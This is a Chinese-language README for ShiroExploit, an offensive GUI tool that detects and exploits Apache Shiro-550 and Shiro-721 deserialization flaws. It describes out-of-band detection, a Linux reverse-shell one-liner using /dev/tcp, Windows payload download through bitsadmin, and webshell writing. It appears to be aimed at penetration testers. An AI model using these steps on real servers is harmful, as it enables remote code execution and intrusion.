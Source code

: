 # ShiroExploit
支持对Shiro550（硬编码秘钥）和Shiro721（Padding Oracle）的一键化检测，支持简单回显

## 使用说明 
### 第一步:按要求输入要检测的目标URL和选择漏洞类型
+ ```Shiro550```无需提供rememberMe Cookie，```Shiro721```需要提供一个有效的rememberMe Cookie
+ ```Shiro550```无需选择操作系统类型，```Shiro721```需要选择操作系统类型
+ 可以手工指定特定的 Key 和 Gadget，默认不指定，会遍历所有的 Key 和 Gadget
+ 复杂Http请求支持直接粘贴数据包
![pic1](https://raw.githubusercontent.com/feihong-cs/ShiroExploit_GUI/master/imgForReadMe/pic1.jpg)

### 第二步: 选择攻击方式
![pic2](https://raw.githubusercontent.com/feihong-cs/ShiroExploit_GUI/master/imgForReadMe/pic2.png)

#### 选择 ```使用 ceye.io 进行漏洞检测```
+ 可以不进行任何配置，配置文件中已经预置了 CEYE 域名和对应的 Token，当然也可以对其进行修改。
+ 程序会首先使用 ```URLDNS``` 筛选出唯一 Key，然后依次调用各个 Gadget 生成 Payload 
+ 缺点：程序会使用 API：http://api.ceye.io/v1/records?token=a78a1cb49d91fe09e01876078d1868b2&type=dns&filter=[UUID] 查询检测结果，这个 API 有时候会无法正常访问，导致在这种方式下无法找到 Key 或者有效的 Gadget


#### 选择 ```使用 dnslog.cn 进行漏洞检测```
+ 可以不进行任何配置，每次启动时程序会自动从 ```dnslog.cn``` 申请一个 DNS Record。
+ 程序会首先使用 ```URLDNS``` 筛选出唯一 Key，然后依次调用各个 Gadget 生成 Payload 
+ 缺点：少数时候 dnslog.cn 会间隔较久才显示 DNS 解析结果导致程序无法找到 Key 或者有效的 Gadget，且 dnslog.cn 只会记录最近的10条 DNS 解析记录

#### 选择 ```使用 JRMP + dnslog 进行漏洞检测```
+ 需要在 VPS 上通过命令```java -cp ShiroExploit.jar com.shiroexploit.server.BasicHTTPServer [HttpSerivce Port] [JRMPListener Port]```开启HttpService/JRMPListener，并按照要求填入相应 IP 和端口
+ 如果开启 HttpService/JRMPListener 时未指定端口号，则 ```HTTPService``` 默认监听 ```8080``` 端口，```JRMPListener``` 默认监听 ```8088``` 端口
+ 使用 ```JRMP``` 的方式进行漏洞检测，可以显著减小 cookie 大小
+ 程序会首先使用 ```URLDNS``` 筛选出唯一 Key，然后使用 ```JRMP``` 依次为各个 Gadget 生成对应的 JRMPListener

#### 选择 ```使用回显进行漏洞检测```
+ 针对不出网的情况进行漏洞检测，此时可以检测的 Gadget 类型会少于使用 DNSLog 方式的 Gadget类型
+ 目前主要是通过将命令执行结果写入 Web 目录下然后读取的方式实现回显
+ 需要提供一个静态资源 URL，程序会将此静态资源所在的目录当做写入目录
+ 注：开始的时候使用 ```https://blog.csdn.net/fnmsd/article/details/106709736``` 介绍的方式实现回显，在本地可以测试成功，但是在实际环境中基本不成功（可能是我的姿势有问题，欢迎探讨），所以目前是通过读写文件的方式实现回显，后期可能会加入其它方式

### 第三步：检测漏洞并执行命令
+ 程序在判断目标应用是否存在漏洞时，窗口上部的输入框无法进行输入。当程序检测出目标应用存在漏洞时，输入框可以进行输入并执行命令。
+ ```反弹shell（linux）``` 采用 ```bash -i >& /dev/tcp/1.2.3.4/443 0>&1``` 的方式反弹 shell
+ ```反弹shell（Windows）``` 采用 ```bitsadmin``` 下载指定 URL 的 exe 文件并执行的方式获取 shell
![pic5](https://raw.githubusercontent.com/feihong-cs/ShiroExploit_GUI/master/imgForReadMe/pic5.png)

+ ```获取Webshell``` 可以在能够回显的情况下直接在使用者给出的路径（目录需要真实存在）下写入 webshell, webshell 名称和后缀名由使用者自行指定，webshell 的内容从 config 目录下的 shell.jsp 中读取
![pic3](https://raw.githubusercontent.com/feihong-cs/ShiroExploit_GUI/master/imgForReadMe/pic3.png)

## 备注
在使用漏洞检测主程序或者开启 HttpService/JRMPListener 时，均需要ysoserial.jar的支持，将ysoserial.jar和ShiroExploit.jar放置在同一目录即可。

## 致谢
感谢 [AgeloVito](https://github.com/AgeloVito)  ```怕冷的企鹅``` 给予本项目的技术支持
